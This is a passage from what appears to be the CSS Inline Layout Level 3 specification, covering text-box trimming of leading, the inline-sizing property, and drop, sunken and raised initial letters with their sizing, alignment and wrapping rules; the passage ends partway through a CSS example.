**When its computed `line-height` is not `normal`**, its layout bounds are derived solely from metrics of its first available font (ignoring glyphs from other fonts), and **leading** is used to adjust the effective *A* and *D* to add up to the used `line-height`. Calculate the leading *L* as *L* = `line-height` - (*A* + *D*). Half the leading (its **half-leading**) is added above *A* of the first available font, and the other half below *D* of the first available font, giving an effective ascent above the baseline of *A′* = *A* + *L*/2, and an effective descent of *D′* = *D* + *L*/2. However, if `line-fit-edge` is not `leading` and this is not the root inline box, if the half-leading is positive, treat it as zero. The layout bounds exactly encloses this effective *A′* and *D′*.

> **Note:** *L* may be negative.

Additionally, when `line-fit-edge` is not `leading`, the layout bounds are inflated by the sum of the margin, border, and padding on each side. In order to allow negative margin values to have an actual effect, negative margins are also accumulated onto the layout bounds of any descendant inline boxes participating in the same inline formatting context.

In Quirks Mode [QUIRKS], any inline box fragment that has zero borders and padding and that does not directly contain text or preserved white space [CSS-TEXT-3] is ignored when sizing the line box.

### 6.  Trimming Leading Over/Under Text {#css-inline-3:leading-trim}

To ensure consistent spacing in the basic case of running text, CSS line layout introduces leading both above and below the text content of each line as needed to ensure its `line-height`. In addition, the ascent and descent font metrics themselves often include extra space above and below the most typical glyph shapes in order to accommodate occasional characters and diacritics that ascend or descend beyond the typical bounds. This prevents adjacent lines of text from overlapping each other. However, all this extra spacing interferes with visual alignment and with control over effective (visually-apparent) spacing.

The `text-box` property allows trimming this additional space above and below the first and last lines of a block, allowing more precise control over spacing around the glyphs. By relying on font metrics rather than hard-coded lengths, this feature allows content to be resized, rewrapped, and rendered in a variety of fonts while maintaining that precise spacing.

> **Example:** A common problem is vertical centering. It’s easy to vertically center the text container to an icon, but because the visual boundaries of Latin text are the cap height and the alphabetic baseline, rather than the ascent and descent, this often doesn’t yield the intended visual effect.
>
> ![Consider some Latin text placed to the right of an image, to be centered between its top and bottom. Measuring from the top of the image to the top of the text box yields 13px; likewise measuring from the bottom of the image to the bottom of the text box yields 13px, theoretically perfectly centering the text. However, measuring from the top of the image to the cap-height yields 21px; and measuring from the bottom to the alphabetic baseline yields 19px, showing that visually the text is not actually centered.](../css-inline-3/images/leading-trim-centering-fail.png)
>
> Measuring to the top/bottom of the text may yield equal results, but measuring to the visual bounds shows that it is not visually centered.
>
> To center the text visually, it’s necessary to assume the cap height and alphabetic baseline as the top and bottom edges of the text, respectively.
>
> 
>
> Measuring to the cap height / alphabetic baseline instead of the ascent / descent and equalizing those distances visually centers the text.
>
> By using `text-box-trim` to strip out the spacing above the cap height and below the alphabetic baseline, centering the box actually centers the text; and does so reliably, regardless of what font is used to render it.
>
> 
>
> Even though different fonts have different cap heights, by using the font’s metric rather than a magic number, the layout intention is met even as the font is changed.

#### 6.1.  Shorthand for Text Box Trimming: the `text-box` property {#css-inline-3:text-box-shorthand}

| Field | Value |
| --- | --- |
| Name: | **text-box** |
| [Value:](#css-values-4:value-defs) | normal \| `<'text-box-trim'>` \|\| `<'text-box-edge'>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | block containers, multi-column containers, and inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property is a shorthand for setting the `text-box-trim` and `text-box-edge` properties in a single declaration.

If the single keyword **normal** is specified, it sets `text-box-trim` to `none` and `text-box-edge` to `auto`. Otherwise, omitting the `text-box-trim` value sets it to `trim-both` (not the initial value), while omitting the `text-box-edge` value sets it to `auto` (the initial value).

> **Issue:** Add examples.

#### 6.2.  Trimming Over/Under Text: the `text-box-trim` property {#css-inline-3:text-box-trim}

| Field | Value |
| --- | --- |
| Name: | **text-box-trim** |
| [Value:](#css-values-4:value-defs) | none \| trim-start \| trim-end \| trim-both |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block containers, multi-column containers, and inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

On inline boxes, specifies whether to trim the content box to match the specified `text-box-edge` metric. See [§ 5.3 Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes](#css-inline-3:inline-height) for details.

On block containers, as well as on each column of a multi-column container, specifies whether to trim half-leading at the start/end of the box’s content to better match its content edge to its text content. The trimming edge in this case is specified by the start/end `text-box-edge` value of the affected line box’s containing block.

Values have the following meanings:

****none****

: No special handling of the first/last line box when applied to a block container.

  When applied to an inline box, specifies that the over/under content edges coincide with the text-over/text-under baselines regardless of `text-box-edge`.

****trim-start****

: For block containers and column boxes: trim the block-start side of the first formatted line to the specified metric of its root inline box. If there is no such line, or if there is intervening non-zero padding or borders, there is no effect.

  For inline boxes: trims the block-start side of the box to match its content edge to the metric specified by `text-box-edge`.

****trim-end****

: For block containers and column boxes: trim the block-end side of the last formatted line to the specified metric of its root inline box. If there is no such line, or if there is intervening non-zero padding or borders, there is no effect.

  For inline boxes: trims the block-end side of the box to match its content edge to the metric specified by `text-box-edge`.

****trim-both****

: Specifies the behavior of `trim-start` and `trim-end` simultaneously.

> **Note:** Like `::first-line`, this property does not apply to, or propagate through, flex, grid, or table formatting contexts.

> **Note:** The block-end side does not coincide with the line-under side when `writing-mode` is `vertical-lr`.

If multiple ancestors specify trimming on the same line box, the metric used is that of the innermost block container that requests trimming on that side of the line box.

> **Note:** Content and ink overflowing a box due to non-initial values of `text-box-trim` is handled the same as content that would overflow the box or line box otherwise.

Unlike `::first-line`, when applying to the first (or last) formatted line of a multi-column container, this property applies to the first (or last) formatted lines of *every* column in the multi-column container.

> **Issue:** What happens if the column is split by a spanner? [[Issue #11363]](https://github.com/w3c/csswg-drafts/issues/11363)

When the box to which `text-box-trim` has been applied is split by fragmentation [CSS-BREAK-3], whether trimming is applied per fragment or only to the start/end edges of its first/last fragments is determined by `box-decoration-break`.

If, when printing, trimming a line box would cause its content to be clipped, the UA may ignore `text-box-trim` on that edge of that line box.

#### 6.3.  Text Trimming Metrics: the `text-box-edge` property {#css-inline-3:text-box-edge}

| Field | Value |
| --- | --- |
| Name: | **text-box-edge** |
| [Value:](#css-values-4:value-defs) | auto \| `<text-edge>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers and inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the metrics to use for `text-box-trim` effects. Values have the same meanings as for `line-fit-edge`; the **auto** keyword uses the value of `line-fit-edge`, interpreting `leading` (the initial value) as `text`.

> **Note:** This property can be set together with `text-box-trim` in the `text-box` shorthand. Unlike `line-fit-edge`, it does not inherit; however its initial value copies from `line-fit-edge`, which does inherit.

#### 6.4.  Inline Box Drawing Height: the `inline-sizing` property {#css-inline-3:line-fill}

| Field | Value |
| --- | --- |
| Name: | **inline-sizing** |
| [Value:](#css-values-4:value-defs) | normal \| stretch |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | inline boxes, but not ruby container boxes nor internal ruby boxes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** This has a confusing name. We need a new name. Alternatively, incorporate this into `text-box-trim`? [[Issue #5189]](https://github.com/w3c/csswg-drafts/issues/5189)

This property specifies how the logical height of the content area of an inline box is measured in relation to its contents. It has no effect on the size or position of the box’s contents, the line box, or any other content.

Values have the following meanings:

****normal****

: The content area of the inline box is sized and positioned to fit (possibly hypothetical) text from its first available font. If `text-box-trim` indicates trimming, then the specified metric must be used. Otherwise, this specification does not specify how. A UA may, e.g., use the maximum ascender and descender of the font. (This would ensure that glyphs with parts above or below the em-box still fall within the content area, but leads to differently sized boxes for different fonts.)

  > **Note:** If more than one font is used (which happen when glyphs are found in different fonts), the logical height of the content area is not affected by the glyphs from the fallback fonts, and only depends on the first available font. However, these fallback glyphs can still affect the line box size when `line-height` is `normal`; see [§ 5.3 Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes](#css-inline-3:inline-height).

****stretch****

: Once the line box has been sized and its contents positioned as for `normal`, the inline box’s box edges are shifted such that its over/under margin edges coincide with the corresponding line box’s edges, stretching the inline box’s inner logical height so that its block-axis outer size fills the line box. (The sizes and positions of its in-flow contents are not affected.)

> **Note:** The `height` property does not apply to inline boxes.

> **Note:** The `line-height` has no impact on the size of an inline box, it only [affects its contribution](#css-inline-3:inline-height) to the logical height of its line box.

### 7.  Initial Letters {#css-inline-3:initial-letter-styling}

> **Issue:** The editors would appreciate any examples of drop initials in non-western scripts, especially Indic scripts.

#### 7.1.  An Introduction to Initial Letters {#css-inline-3:initial-letter-intro}

*This section is non-normative.*

Large, decorative letters have been used to start new sections of text since before the invention of printing. In fact, their use predates lowercase letters entirely.

##### 7.1.1.  Drop Initial {#css-inline-3:drop-initial}

A **dropped initial** (or “drop cap”) is a larger-than-usual letter at the start of a paragraph, with a baseline at least one line lower than the first baseline of the paragraph. The size of the drop initial is usually indicated by how many lines it occupies. Two- and three-line drop initials are very common.


Three-line drop initial with E acute. Since the cap-height of the drop initial aligns with the cap-height of the main text, the accent extends above the paragraph.

The exact size and position of a dropped initial depends on the alignment of its glyph. Reference points on the drop cap must align precisely with reference points in the text. The alignment constraints for drop initials depend on the writing system.

In Western scripts, the top reference points are the cap height of the initial letter and of the first line of text. The bottom reference points are the alphabetic baseline of the initial letter and the baseline of the Nth line of text. The figure below shows a simple two-line drop cap, with the relevant reference lines marked.


Two-line drop cap showing baselines (green lines), cap-height (red line), and ascender (cyan line).

In Han-derived scripts, the initial letter extends from the block-start edge of the glyphs on the first line to the block-end edge of the glyphs on the Nth line.


Two-line drop initial in vertical writing mode

In certain Indic scripts, the top alignment point is the hanging baseline, and the bottom alignment point is the text-after-edge.


Devanagari initial letter aligned with hanging baseline. Alignment points shown in red.

##### 7.1.2.  Sunken Initial Letters {#css-inline-3:sunk-initial}

Some styles of drop initials do not align with the first line of text. A **sunken initial** (or “sunken cap”) both sinks below the first baseline, and extends above the first line of text.


Sunken cap. The letter drops two lines, but is the size of a three-line initial letter.

##### 7.1.3.  Raised Initial Letters {#css-inline-3:raise-initial}

A **raised initial** (often called a “raised cap” or “stick-up cap”) “sinks” to the first text baseline.

> **Note:** A proper raised initial has several advantages over simply increasing the font size of a first letter. The line spacing in the rest of the paragraph will not be altered, but text will still be excluded around large descenders. And if the size of raised initial is defined to be an integral number of lines, implicit baseline grids can be maintained.


Raised cap. The initial letter is the size of a 3-line initial, but does not drop.

#### 7.2.  Selecting Initial Letters {#css-inline-3:selecting-drop-initials}

*This section is non-normative.*

Initial letters are typically a single letter, although they may include punctuation or a sequence of characters which are perceived by the user to be a single typographic unit. The `::first-letter` pseudo-element, defined in [SELECT] and [CSS-PSEUDO-4], can be used to select the character(s) to be formatted as initial letters.

Authors who need more control over which characters are included in an initial letter, or who want to apply initial-letter formatting to replaced elements or multiple words can alternately apply the `initial-letter` property to the first inline-level child of a block container.

> **Example:** ```
> <p>This paragraph has a dropped “T”.
> <p>ere we have an illuminated “H”.
> <p><span>Words may also</span> be given initial letter styling at the beginning of a paragraph.
> ```
>
> ```
> ::first-letter, /* style first paragraph's T */
> img, /* style illuminated H */
> span /* style phrase inside span */
> { initial-letter: 2; }
> ```

Note that since `::first-letter` selects punctuation before or after the first letter, these characters are included in the initial letter when `::first-letter` is used.


The `::first-letter` pseudo-element selects the quotation mark as well as the “M”.

> **Issue:** Should there be a way to opt out of this behavior? See [GitHub Issue 310](https://github.com/w3c/csswg-drafts/issues/310).

#### 7.3.  Creating Initial Letters: the `initial-letter` property {#css-inline-3:sizing-drop-initials}

| Field | Value |
| --- | --- |
| Name: | **initial-letter** |
| [Value:](#css-values-4:value-defs) | normal \| `<number [1,∞]>` `<integer [1,∞]>` \| <number [1,∞]> && [ drop \| raise ]? |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | certain inline-level boxes and `::first-letter` and inside `::marker` boxes ([see prose](#css-inline-3:first-most-inline-level)) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `normal` or a number paired with an integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies the size and sink for dropped, raised, and sunken initial letters as the number of lines spanned.

> **Example:** For example, the following code will create a 2-line dropped initial letter at the beginning of each paragraph that immediately follows a second-level heading:
>
> ```
> h2 + p::first-letter { initial-letter: 2; }
> ```

It takes the following values:

****normal****

: No special initial letter effect. Text behaves as normal.

****`<number [1,∞]>`****

: This first argument defines the **size** of the initial letter in terms of how many lines it occupies. Values less than one are invalid.

****`<integer [1,∞]>`****

: This optional second argument defines the number of lines the initial letter should **sink**. A value of `1` indicates a raised initial; values greater than `1` indicate a sunken initial. Values less than one are invalid.

****raise****

: Computes to an initial letter sink of `1`.

****drop****

: Computes to an initial letter sink equal to the initial letter size floored to the nearest positive whole number.

If the initial letter sink value is omitted, `drop` is assumed.

Values other than `normal` cause the affected box to become an **initial letter box**, which is an in-flow inline-level box with special layout behavior.

> **Example:** Here are some examples of `initial-letter` usage:
>
> **`initial-letter: 3` `initial-letter: 3 3` `initial-letter: 3 drop` `initial-letter: drop 3`**
>
> : Represents a dropped initial 3 lines high, 3 lines deep.
>
>   
>
> **`initial-letter: 3 2`**
>
> : Represents a sunken initial 3 lines high, 2 lines deep.
>
>   
>
> **`initial-letter: 3 1` `initial-letter: 3 raise` `initial-letter: raise 3`**
>
> : Represents a raised initial 3 lines high, 1 line deep.
>
>   
>
> **`initial-letter: 2.51 3`**
>
> : The size of the initial letter does not have to be an integral number of lines. In this case only the top aligns.
>
>   

> **Example:** In conjunction with other CSS properties, `initial-letter` can be used to create “adjacent initial letters,” where the initial letter is adjacent to the text:
>
> ```
> p::first-letter {
>   initial-letter: 3;
>   color: red;
>   width: 5em;
>   text-align: right;
>   margin-left: -5em;
> }
>
> p {
>   margin-left: 5em;
> }
> ```
>
> 

##### 7.3.1.  Applicability {#css-inline-3:first-most-inline-level}

To give authors more control over which characters can be styled as an initial letter and to allow the possibility of multi-character initial letters (such as for first word or first phrase styling), the `initial-letter` property applies not just to the CSS-defined `::first-letter` pseudo-element, but also to `inside`-positioned `::marker` pseudo-elements and to inline-level boxes that are placed at the start of the first line. Specifically, `initial-letter` applies to any inline-level box—​including any such `::first-letter` or `::marker` box—​that is the first child of its parent box and whose ancestors (if any) that are descendants of its containing block are all first-child inline boxes that have a computed `initial-letter` value of `normal`.

> **Example:** For example, the `<span>`, `<em>`, and `<b>` elements in the following example are "first-most inline-level descendants" of the `<p>`, but the `<strong>` element is not:
>
> ```
> <p><span><em><b>This</b> phrase</em> is styled
> <strong>specially</strong>.</span> …
> ```
>
> If we apply the following rules:
>
> ```
> em { initial-letter: 2; }
> b, strong { initial-letter: 3; }
> ```
>
> The `initial-letter` property will take effect only on the `<em>`. The styling on `<b>` is ignored, as it has an ancestor already styled as an initial letter; and the styling on `<strong>` is ignored because it is a second sibling.
>
> The result might be rendered as
>
> 

If `initial-letter` is applied to an inline-level box that is not positioned at the start of the line due to bidi reordering or which is otherwise preceded by other inline-level content, its used value is `normal`, and it is not formatted as an initial letter.

The effect of the `initial-letter` property is undefined on children of ruby base container boxes and on ruby container boxes.

> **Note:** The `initial-letter` property cannot apply to any element whose `float` is not `none` or `position` is not `static`, because these values cause its `display` to compute to `block`.

#### 7.4.  Alignment of Initial Letters: the `initial-letter-align` property {#css-inline-3:aligning-initial-letter}

As mentioned earlier, the alignment of initial letters depends on the script used. The `initial-letter-align` property can be used to specify the proper alignment.

| Field | Value |
| --- | --- |
| Name: | **initial-letter-align** |
| [Value:](#css-values-4:value-defs) | [ border-box? [ alphabetic \| ideographic \| hanging \| leading ]? ]! |
| [Initial:](#css-cascade-6:initial-values) | alphabetic |
| [Applies to:](#css-cascade-5:applies-to) | certain inline-level boxes and `::first-letter` and inside `::marker` boxes ([see prose](#css-inline-3:first-most-inline-level)) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the alignment points used to size and position an initial letter. Two sets of alignment points are necessary: the over and under alignment points of the initial letter are matched to corresponding over and under points of the root inline box.

Values have the following meanings:

****alphabetic****

: Use the cap-height and alphabetic baselines of the surrounding text to align the initial letter.

****ideographic****

: Use the ideographic-ink-over and ideographic-ink-under baselines of the surrounding text to align the initial letter.

****hanging****

: Use the hanging and alphabetic baselines of the surrounding text to align the initial letter.

****leading****

: Use the over/under half-leading edges (i.e. ascent/descent + half-leading) of the surrounding text to align the initial letter.

  > **Note:** This will essentially match the edges of the initial letter to middle of the line gap above/below the first/last impacted lines, which is an effect sometimes used in certain types of [Indic typesetting](https://www.w3.org/TR/ilreq/#h_scripts_without_hanging_baseline) [ILREQ].

****border-box****

: Use the initial letter box’s line-under and line-over border edges as the over and under alignment points, respectively.

> **Example:** The vertical writing mode example earlier (in [§ 7.1 An Introduction to Initial Letters](#css-inline-3:initial-letter-intro)) could be coded as:
>
> ```
> span.initial {
>   initial-letter: 2;
>   initial-letter-align: ideographic;
> }
> ```

Except when `border-box` is specified, the alignment points of the initial letter are automatically determined from its contents:

1. If the initial letter is an atomic inline, use its over and under content-box edges.
2. Else if the initial letter contains any character having the Han, Hangul, Kana, or Yi Unicode script property, use the ideographic-ink-over and ideographic-ink-under baselines.
3. Else if the initial letter contains any character having the Han, Hangul, Kana, or Yi Unicode script property, use the hanging and alphabetic baselines.
4. Else use the cap-height and alphabetic baselines.

> **Issue:** Correct alignment of initial letter in scripts such as Hebrew and Thai is currently not possible because OpenType lacks corresponding metrics. ([Issue 5244](https://github.com/w3c/csswg-drafts/issues/5244))
>
> 

> **Note:** The ordering of keywords in this property is fixed in case `border-box` is expanded to `[ border-box | alphabetic | ideographic | hanging ]` to allow explicitly specifying the initial letter’s alignment points.

##### 7.4.1.  UA Default Stylesheet for `initial-letter-align` {#css-inline-3:initial-letter-align-defaults}

In order to provide the better behavior by default, UAs must include in their default UA style sheet the following rules:

```
[lang]:lang(zh, ja, ko, ii) {
  initial-letter-align: ideographic;
}

[lang]:lang(hi, mr, ne, pi, kok, brx, mai, sd, sa) {
  initial-letter-align: hanging;
}
/* Script tags override language tags */
[lang]:lang('*-Latn', '*-Cyrl') {
  initial-letter-align: alphabetic;
}
[lang]:lang('*-Hani', '*-Hant', '*-Hans') {
  initial-letter-align: ideographic;
}
```

> **Issue:** This only covers the most common cross-linguistic transcription systems. Should we include any other / all script tags in the UA style sheet?

#### 7.5.  Initial Letter Layout {#css-inline-3:initial-letter-layout}

There are two types of initial letter boxes: those that arise from non-replaced inline boxes and those that arise from atomic inlines.

For the non-atomic **inline initial letter**, the box and its contents participate in the same inline formatting context as the line on which it occurs, and a lot of special rules apply to give the expected sizing and alignment.

For an **atomic initial letter**, however, which is either a replaced element or which establishes an independent formatting context for its contents, the sizing of the box (aside from its automatic size in the block axis) and layout of the contents within the box follows the usual rules: it is primarily the positioning of the box which is special.

##### 7.5.1.  Properties Applying to Initial Letters {#css-inline-3:initial-letter-properties}

All properties that apply to an inline box also apply to an inline initial letter except for `vertical-align` and its sub-properties, `font-size`, `line-height`, `line-fit-edge`, and `inline-sizing`. Additionally, all of the sizing properties and `box-sizing` also apply to initial letters (see [css-sizing-3]).

All properties that apply to an atomic inline also apply to the atomic inline when styled as an initial letter, except for `vertical-align` and its sub-properties.

##### 7.5.2.  Margins, Borders, and Padding {#css-inline-3:initial-letter-box}

Initial letters can be styled with margins, padding, and borders just like any other box. Unless `initial-letter-align` is `border-box`, its vertical alignment and [font sizing](#css-inline-3:sizing-initial-letter) are not affected. However the effective exclusion area, which is typically the initial letter’s margin box (see `initial-letter-wrap`) is affected.

When padding and borders are zero, the initial letter may be kerned; see below.

##### 7.5.3.  Font Sizing of Initial Letters {#css-inline-3:sizing-initial-letter}

For an inline initial letter, the font size used for sizing the initial letter contents is calculated to fulfill its specified size (see `initial-letter`) as anchored by its specified alignment points (see `initial-letter-align`). Note that no layout is required in this calculation: it is based only on computed values and font metrics. These used font size calculations *do not* affect the computed `font-size`, and therefore have no effect on the computation of `em` length values, etc.

> **Issue:** What about inheritance to descendants? [[Issue #4988]](https://github.com/w3c/csswg-drafts/issues/4988)

The line height used in these calculations is the `line-height` of the containing block (or, in the case where a baseline grid is in use, the baseline-to-baseline spacing required by the baseline grid [CSS-LINE-GRID-1]). The contents of the lines spanned, and therefore any variation in their heights and positions, is not accounted for.


For an *N*-line drop initial in a Western script, the cap-height of the letter needs to be (*N* – 1) times the line-height, plus the cap-height of the surrounding text. Note this height is *not* the font size of the drop initial.

Actually calculating this font size is tricky. For an *N*-line drop initial, we find the drop initial font size to be:

![Font size of drop cap = ((N-1) * line-height + [cap-height of para] * [font size of paragraph])/[cap-height ratio of drop initial font]](../css-inline-3/images/InitialCapEquation.png)

> **Issue:** Update this calculation to be a) generic across writing systems / alignment points and b) handle non-integer sizes.

> **Example:** A three-line drop initial in Adobe Minion Pro would have a font size of 61.2pt given 12pt text, 16pt line-height, and a cap-height of 651/1000 (from the font’s OS/2 table).

For an atomic initial letter, the used font size is the computed font size as usual.

##### 7.5.4.  Shaping and Glyph Selection {#css-inline-3:initial-letter-shaping}

When `initial-letter` is not `normal`, an inline initial letter is isolated for glyph shaping; however the text after it *should* shape across the inline initial letter box’s boundaries, assuming its presence as part of the first line’s text content. (See [CSS Text 3 § 7.3 Shaping Across Element Boundaries](#css-text-4:boundary-shaping).) For example, if the first letter of the word “يحق” were styled with `initial-letter: 2 1`, the first letter would be styled in its isolated form “ي”, as the initial letter, followed by the medial/final-form “ﺤﻖ”, which assumes it is preceded by the initial letter’s contents as normal text.


Two-line Arabic “Drop-cap”

##### 7.5.5.  Sizing the Initial Letter Box {#css-inline-3:initial-letter-box-size}

For an inline initial letter, if the initial letter’s preferred width/preferred height is definite, use that value (clamped as required by the min size and max size properties, and handling `box-sizing` as required) for that dimension of the box.

Otherwise it is considered to have an automatic size in that dimension and its content box is sized to fit both:

- The specified sink (i.e the space between the over alignment point and the under alignment point).
- The glyph outlines of all the glyphs it contains—​excluding any that hang (see `hanging-punctuation`)—​as well as the margin boxes of any atomic inlines it contains.

  > **Example:** The glyph(s) of an initial letter do not always fit within the specified sink. For example, if an initial letter has a descender, it could crash into the (n+1)th line of text. This is not desirable.
  >
  > 
  >
  > Incorrect: three-line initial letter (`initial-letter: drop 3`) with descender. In this font, the capital “J” extends well below the baseline (shown in red).
  >
  > Therefore all line boxes impacted by the glyph outlines of an initial letter need to be excluded, not just those within range of the initial letter sink.
  >
  > 
  >
  > Correct: text excluded around glyph bounding box

However, if its block-start padding and border are both zero, then its block-start content edge instead coincides with its over alignment point exactly, and any content overflowing above that point is ignored for the purpose of layout.

> **Note:** If an inline initial letter has ascenders above its over alignment point, and the author has not provided sufficient margin on either the initial letter itself or its containing block, then those ascenders might collide with preceding content.

> **Note:** It might be nice to automatically provide the necessary spacing by treating such ascenders as a margin that can collapse with the margin of the containing block, and thus guarantee the requisite spacing without imposing any additional space unless it becomes actually necessary. Depending on implementation complexity, this option may be explored in the future; but in the meantime, authors need to be careful to provide the requisite spacing explicitly.

> **Issue:** Should the hanging punctuation be included in the box instead (so that the box is drawn around the punctuation when it is made visible through borders/background), but rather only excluded when positioning the box (so that the initial letter remains flush, with the hanging punctuation properly hanging)? See [discussion](https://github.com/w3c/csswg-drafts/issues/310).

For atomic initial letters, sizing follows the usual rules for that type of atomic inline. However, if the box has an automatic block size (`auto`), then its block size is determined as for an inline initial letter with `border-box` alignment, and is definite.

##### 7.5.6.  Alignment Within an Initial Letter Box {#css-inline-3:initial-letter-content-align}

By default (i.e. under automatic sizing), the content box of an inline initial letter is fitted exactly to its content, and alignment properties like `text-align` or `align-content` do not apply. However, if the box is *not* sized automatically:

- If the inline size is definite, `text-align` is honored for aligning the contents of the initial letter within its box in the inline axis (using its inline-axis bearings as usual, not the bounding box of its glyph outlines).
- If the block size is definite, `align-content` is honored for aligning its contents in the block axis (using its block-axis bearings, synthesizing them if needed).

#### 7.6.  Initial Letter Positioning and Spacing {#css-inline-3:initial-letter-position}

##### 7.6.1.  Block-axis Positioning {#css-inline-3:initial-letter-block-position}

In the block axis, the initial letter is positioned with respect to the line box in which it originates as required to satisfy its alignment (`initial-letter-align`) and specified sink (`initial-letter`):

- If its size is greater than or equal to its sink, the initial letter is positioned to satisfy its under alignment, and then shifted by (sink - 1) × `line-height` of containing block towards the containing block’s block end.
- If its size is less than its sink, the initial letter is positioned to satisfy its over alignment.

> **Note:** An initial letter is essentially positioned such that it would sink the number of lines specified by `initial-letter`’s second argument and align to the requisite under alignment point (or, if its size is less than its sink, to the requisite over alignment point instead) if it was assumed that its containing block held only the initial letter itself followed by an infinite sequence of plain text as the direct contents of its root inline box. Its position is not affected by line height inconsistencies introduced by the contents of the impacted line boxes.


The initial letter does not increase the logical height of the line box in which it participates: it can protrude above or below it. It must be positioned such that its own block-start margin edge is below its containing block’s block-start content edge, and thus can force its originating line box (and subsequent content) to shift further away from that edge.

##### 7.6.2.  Inline Kerning {#css-inline-3:initial-letter-inline-position}

If the initial letter is a non-atomic inline with an automatic inline size and zero padding and borders, its margin box is kerned (negatively inset) by the distance from the start edge of its content box to the point in the content that would have been placed at the start edge of the line box if it were not an initial letter (i.e. the distance between its glyph bounding box and its start side bearing). This inset is effectively an additional inline-start margin on the box.

#### 7.7.  Initial Letter Wrapping: the `initial-letter-wrap` property {#css-inline-3:initial-letter-wrapping}

> **Note:** `initial-letter-wrap` is at risk.

| Field | Value |
| --- | --- |
| Name: | **initial-letter-wrap** |
| [Value:](#css-values-4:value-defs) | none \| first \| all \| grid \| `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | certain inline-level boxes and `::first-letter` and inside `::marker` boxes ([see prose](#css-inline-3:first-most-inline-level)) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | relative to logical width of (last fragment of) initial letter |
| [Computed value:](#css-cascade-6:computed) | specified keyword or computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies whether lines impacted by an initial letter are shortened to fit the rectangular shape of the initial letter box or the contour of its glyph outline.

****none****

: No contour-fitting is performed: each impacted line is aligned flush to the inline-end margin edge of the initial letter.

****first****

: Behaves as `none` if the first typographic character unit after the initial letter belongs to Unicode General Category Zs. Otherwise behaves as for `all` on the first line of the block containing the initial letter and as `none` on the rest.

  > **Example:** This example shows why contour-fitting the first line is necessary, and why it is dropped when the initial letter is followed by a space:
  >
  > 
  >
  > In the top paragraph, the initial letter "A" has a word space after it: the gap between the top of the "A" and the next letter provides the necessary word separation. In the next paragraph, the initial letter "A" is part of the first word, and leaving a gap between the top of the "A" and the next letter would create a jarring visual break within the word. In this case, the first line of text should be kerned into the initial letter’s area, as shown in the bottom paragraph.

  > **Issue:** Do we need an unconditional `first`? (I.e. Should we rename this value to `auto` and add a `first` value that does not check for spaces?) See GitHub issue [410](https://github.com/w3c/csswg-drafts/issues/410)

****all****

: For each line of text impacted by the initial letter, the line box adjacent to the initial letter starts at the start-most point that does not overlap the initial letter’s glyph outline.

  If the value of `shape-outside` is not `none`, `shape-outside` is used instead of the glyph outline.

  In both cases, `shape-margin` is applied to expand the outline, and the resulting outline is clipped by the initial letter’s margin edges.

  > **Note:** This value is at-risk.

****grid****

: This value is the same as `none`, except that the exclusion area of the impacted lines is increased as necessary for its end-edge to land on the character grid, i.e. to be a multiple of (`1ic` + `letter-spacing`) as computed on the containing block. The `justify-self` property can then be used to align the initial letter box within the exclusion area.

  

  Diagram of Japanese initial letter in vertical writing mode

  > **Note:** In this example, the exclusion area for the drop initial is larger than its glyph in order to preserve inline-axis alignment.

  > **Note:** This value is also at-risk.

****`<length>`** **`<percentage>`****

: This value behaves the same as `first` except that the adjustment to the first line is given explicitly instead of being inferred from the glyph shape.

  > **Issue:** This really needs font-relative lengths to be relative to the used size.

  > **Note:** This value exists because it is easier to implement. Authors are encouraged to use the `first` value and to set margins to control spacing, and to use this as a fallback for glyph detection if necessary.

  > **Example:** In the following example, UAs that support `first` will use the glyph outline plus the specified margin in order to place the first line, whereas UAs that only support `<length>` or `<percentage>` values will pull in the first line by 40% of the initial letter’s width (and then add the margin to that point).
  >
  > ```
  > h1 + p:first-letter {
  >   initial-letter: 3; /* 3-line drop-cap */
  >   initial-letter-wrap: first;
  >   margin-right: 0.1em;
  > }
  > @supports (not (initial-letter-wrap: first)) {
  >   /* Classes auto-generated on paragraphs to match first letter. */
  >   p.A:first-letter {
